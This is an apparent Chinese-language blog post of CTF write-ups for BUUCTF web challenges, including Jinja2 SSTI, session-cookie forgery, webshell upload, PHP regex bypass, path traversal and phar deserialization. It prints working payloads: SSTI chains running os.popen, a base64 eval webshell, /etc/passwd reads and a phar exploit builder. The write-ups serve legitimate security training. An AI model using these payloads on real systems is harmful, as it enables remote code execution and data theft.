





[buuctf] web区 write up 2
===

## [CSCCTF 2019 Qual]FlaskLight

### 题解

进入发现是一个搜索页面, 搜个 1 试试:


接下来尝试 `{{7*'7'}}`, 发现此处存在 Jinja2 SSTI 注入:


```python
{{''.__class__.__mro__[2].__subclasses__()}}
```


其中能看到 `file` 类是第 41 个, 读一个文件试试:

```python
{{''.__class__.__mro__[2].__subclasses__()[59]('/etc/passwd').read()}}
```


之后尝试调用自建函数, 结果返回 500, 改用 `self.__init__` 起点, 依然失败, 推测过滤了 `globals`, 先找用拼接字符串的方式重构:

```python
{{''.__class__.__mro__[2].__subclasses__()[59].__init__['__glob'+'als__'].__builtins__['__import__']('os').popen('ls /').read()}}
```

执行成功:


最终 payload:

```python
{{''.__class__.__mro__[2].__subclasses__()[59].__init__['__glob'+'als__'].__builtins__['__import__']('os').popen('cat /flasklight/coomme_geeeett_youur_flek').read()}}
```


## [watevrCTF-2019] Cookie Store

### 题解


显示一共只有 $50 , 但是要买 "flag cookie", 这个值 $100 , 先买个一块钱的抓包看看:



买完显示还剩 $49, 说明买成功了, 包里只有商品 id, 唯一可疑的是这个 session, 拿去 base64 解码一下:


再买两个一样的, 抓包解码一下发现变成了: `{"money": 47, "history": ["Yummy chocolate chip cookie", "Yummy chocolate chip cookie", "Yummy chocolate chip cookie"]}`

接下来改包:

```json
{"money": 1047, "history": ["Yummy chocolate chip cookie", "Yummy chocolate chip cookie", "Yummy chocolate chip cookie","Flag Cookie"]}
eyJtb25leSI6IDEwNDcsICJoaXN0b3J5IjogWyJZdW1teSBjaG9jb2xhdGUgY2hpcCBjb29raWUiLCAiWXVtbXkgY2hvY29sYXRlIGNoaXAgY29va2llIiwgIll1bW15IGNob2NvbGF0ZSBjaGlwIGNvb2tpZSIsIkZsYWcgQ29va2llIl19
```

现在就可以买了:




## [WUSTCTF2020]CV Maker

### 题解

打开是一个论坛页面, 先随便注册然后登陆, 跳转到了个人主页:


并且主页 url 为: `/profile.php`, 猜测可能有文件上传漏洞:

直接传 `shell.php` 会被拦住, 改个文件头和文件类型, 直接通过了:


之后在这个页面就加载不出来头像了, 不过在源代码里能看见路径:


用蚁剑连接即可:




## [CISCN2019 华北赛区 Day1 Web2] ikun

### 题解

> 同站博客里有写: [XCTF 之 bilibili wp](https://r4x.top/2025/07/25/xctf_wp1/)

典中典之开门审计:



```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```



先看看地址, payload: `?action=pwd`:


接下来考虑怎么传数据来绕过这个正则表达式, 这里主要过滤的是 `eval` (执行任意代码) 和 `php://` 开头的伪协议, 考虑构造 `data://` 伪协议:

```
http://ad72d8b5-5089-40f0-8e09-0bd2eef5e8f6.node5.buuoj.cn:81/?action=upload&data=data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTs/Pg==
```

还是被拦截了, 应该是因为匹配了解码之后的内容。

再审计一下, 发现 ``<?=`ls`?>`` 这样的结构绕过:

- `<?= cmd ?>` = `<?php echo cmd;?>`
- `` ` ` `` 可以直接执行其中的命令

编辑后直接访问: 
```
http://ad72d8b5-5089-40f0-8e09-0bd2eef5e8f6.node5.buuoj.cn:81/sandbox/e0cd7c28b74327b3bd1472378bdfbfa2/index.php
```

发现执行了结果:



那就可以构造 payload 来找 flag 在哪了, 这里用 ``<?=`ls%09/`?>`` 的方式来绕: 


最终payload:

```
http://ad72d8b5-5089-40f0-8e09-0bd2eef5e8f6.node5.buuoj.cn:81/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```


拿到 `flag{c4e1a282-3267-4515-9455-20254765eff8}`

## [网鼎杯 2020 白虎组]PicDown

### 题解

打开发现只有一个输入框:



尝试一下输入 `127.0.0.1`, `baidu.com` 均无果, 试试文件包含:

```
../../../../../../etc/passwd
```

下载了一个 `beautiful.jpg`, 且无法预览, 转为 txt 后打开内容如下:


说明很可能是将结果重命名为 `beautiful.jpg` 直接下载了;

下一步猜 flag 的位置在 `/flag`:

下载之后直接得到了 `flag`: `flag{34d4f6c9-bf2f-4e5c-af12-d6cf98c491d9}` 

~(这也算非预期解?)~

## [SWPUCTF 2018]SimplePHP

### 题解

打开是一个菜单, 看起来很像一个文件上传漏洞的界面。


先传一个改了文件头和类型的 php, 显示非法文件; 修改成 `shell.jpg` 后才能上传, 先搁置, 看看怎么读取。

到查看文件处, 输入 file=shell.jpg 显示文件不存在, 非常奇怪, 因为刚刚显示上传成功了, 可能不在当前目录?

试试这里有没有文件包含: 尝试 index.php, 有回显:


进一步其他文件, base.php:




<!-- tab function.php -->

```php
<?php 
//show_source(__FILE__); 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } 
} 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        } 
    } 
} 
?> 
```

<!-- endtab -->

<!-- tab class.php -->

```php
 <?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?> 
```

<!-- endtab -->

<!-- tab upload_file.php -->

```php
<?php 
include 'function.php'; 
upload_file(); 
?> 
```

<!-- endtab -->

<!-- tab upload_file.php -->

```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
$file = $_GET["file"] ? $_GET['file'] : ""; 
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} 
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
?> 
```

<!-- endtab -->



审计以上代码, 得出:

- 超链接中的 ip 地址 (10.244.166.15) 就是 `$_SERVER['REMOTE_ADDR']`;
- 成功上传的文件以 md5(名字拼接ip地址) 的方式存在了 `/upload/` 目录下, 并且用注释的方式提示这里的权限是 `rwx`;
- 上传文件为白名单过滤, 仅允许四种类型的图片通过;

接下来访问 `/upload` , 发现有一个 2019 年的文件, 可能是提示, 下载后用 Winhex 打开:


到这里没有头绪了, 估计应该是反序列化攻击, 接下来看了一下 WP, 这里的解法是基于 ROP 链的 反序列化攻击:

### ROP 反序列化攻击

所谓的 ROP 反序列化攻击, 就是针对已有的反序列化逻辑, 精心设计一条调用链, 像多米诺骨牌一样一环一环调用, 最后执行特定的魔术方法, 触发执行链, 最终执行恶意代码。

例如:

```php
class Logger {
    public $logFile;
    public $data;

    function __destruct() {
        file_put_contents($this->logFile, $this->data);
    }
}
```

构造这样的反序列化:

```php
$payload = 'O:6:"Logger":2:{s:7:"logFile";s:10:"shell.php";s:4:"data";s:20:"<?php system($_GET[1]); ?>";}';
unserialize($payload);
```

即可部署一个 webshell。

### 分析调用链

在这里有几个关键语句:

```php
<?php

# class Cle4r
$this->test = $this->str;
# 如果 $str 是个 Show 对象, 会触发 Show 的 __toString()

# class Show
public function __toString()
{
    $content = $this->str['str']->source;
    return $content;
}
# 这段代码中调用了 source, 也就是说 $this->str['str'] 需要是一个对象, 那么就令其为 Test 对象

# class Test
public function __get($key) {
    return $this->get($key);     // get('source')
}

public function get($key) {
    if (isset($this->params[$key])) {
        $value = $this->params[$key];
    } else {
        $value = "index.php";
    }
    return $this->file_get($value);
}

public function file_get($value) {
    $text = base64_encode(file_get_contents($value));
    return $text;
}
# Test::__get($key) 实际调用了 get($key)，而 get() 调用 file_get($value)
>
```

到目前已经有一条调用链:

```
C1e4r::__destruct => Show::__toString => Test::__get => Test::get => Test::file_get
```

### phar 伪协议

`phar://` 是 PHP 中的一个流式封装协议（Stream Wrapper），其原本设计目的是用来访问 `.phar`（PHP Archive）格式的归档文件，类似于 Java 的 `.jar` 文件。它允许你像访问目录结构一样访问 `.phar` 文件中的内容。

但在安全研究和渗透测试中，`phar://` 被广泛用于利用文件操作函数触发反序列化漏洞:

1. `.phar` 文件的元数据本质上是被 **序列化** 储存的。
2.  当使用 `phar://` 协议访问归档时，PHP 底层会**自动反序列化**这个 metadata (元数据) 区域。

那么只要把 payload 放进 metadata 中, 就可以实现反序列化攻击。

### 构造payload

构造 phar 文件:

```php
<?php 
class C1e4r
{
    public $str;
    public function __construct()
    {
        $this->str = new Show();
    }
}

class Show
{
    public $str;
    public function __construct()
    {
	$this->str['str']=new Test();
    }
}
class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source']="/var/www/html/f1ag.php";
    }
}
#$a=new C1e4r();

$phar =new Phar("exp.phar"); 
$phar->startBuffering();
$phar->setStub("XXX<?php XXX __HALT_COMPILER(); ?>"); 
$a=new C1e4r();
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
执行生成, 然后把结果塞进 jpg 伪装一下传上去:

> 注：要把 `php.ini` 中的 `phar.readonly` 设置成Off


改名: `exp.jpg` 

> 注: 此处最好改名, 不要改包, 因为涉及不可见字符, 和简单的加文件头完全不一样, 容易出错。


用 `phar://` 伪协议读出来即可:

```
http://b5030720-92d8-4375-97ac-e7ee7b339b85.node5.buuoj.cn:81/file.php?file=phar://upload/6cf44e6f793fd969bac20603b117816d.jpg
```


根据源码, 这是 base64 编码之后的文件, 解码即可获得flag


### 分析 WAF

phar 反序列化有三个必要条件:

- 可以上传phar文件
- 有可以利用的魔术方法
- 文件操作函数的参数可控

阻断其中任意一条即可。

## [RoarCTF 2019]PHPShe

### 题解

